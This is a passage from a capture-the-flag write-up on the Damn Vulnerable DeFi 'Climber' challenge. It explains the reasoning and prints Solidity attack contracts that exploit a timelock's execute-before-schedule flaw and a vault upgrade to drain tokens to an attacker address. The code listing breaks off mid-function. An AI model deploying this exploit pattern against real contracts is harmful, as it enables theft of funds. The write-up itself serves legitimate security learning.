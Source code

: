 But it did not work!!! Why? The data value of the schedule function is not added in the data array and I create the signature. When I calculate the keccac256 with the execute function, that value is added. I have two different hashes, what makes this appoach useless. It took me quite some time to realize that there is no way to make that approach work.

My solution then was to create another function in the attack contract that calculates the hash and calls the timelock's schedule function from this function ;-) Hey creative isn't it? But I needed as well help coming up with this! Alone probably this would have taken hours or days.

With this the exploit was almost finished. My smart contract was proposer of the timelock contract and owner of the vault. To exploit I needed another contract I can upgrade to, and transfer all tokes to the attackes address. Here the full attacker contract:

```àpache
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../ClimberVault.sol";
import "../ClimberTimelock.sol";
import "../../DamnValuableToken.sol";
import "solady/src/utils/SafeTransferLib.sol";
import {PROPOSER_ROLE} from "../ClimberConstants.sol";
import "hardhat/console.sol";

contract ClimberNewVolt is ClimberVault {
    using SafeTransferLib for address;

    function withdrawAll(DamnValuableToken token, address attacker, uint256 amount) external {
        //token.transfer(attacker, amount);
        SafeTransferLib.safeTransfer(address(token), attacker, amount);
    }
}

contract AttackClimber {
    ClimberVault vault;
    ClimberTimelock timelock;
    DamnValuableToken token;
    address attacker;

    constructor(ClimberVault _vault, ClimberTimelock _timelock, DamnValuableToken _token, address _attacker) {
        vault = _vault;
        timelock = _timelock;
        token = _token;
        attacker = _attacker;
    }

    function attack() external {
        //log addresses
        console.log("Attack Contract address: %s", address(this));
        console.log("Attacker address: %s", attacker);
        console.log("Vault address: %s", address(vault));
        console.log("Timelock address: %s", address(timelock));

        //attack execute function in ClimberTimeLock
        (address[] memory targets, uint256[] memory values, bytes[] memory data) = getParameters();
        timelock.execute(targets, values, data, "0x0");

        //check if the contract is in the role of proposer for the timelock and is owner of the vault
        bool hasRole = timelock.hasRole(PROPOSER_ROLE, address(this));
        address owner = vault.owner();
        console.log("Contract has proposer role: %s", hasRole);
        console.log("Vault owner: %s", owner);
        console.log("Vault balance: %s", token.balanceOf(address(vault)));
```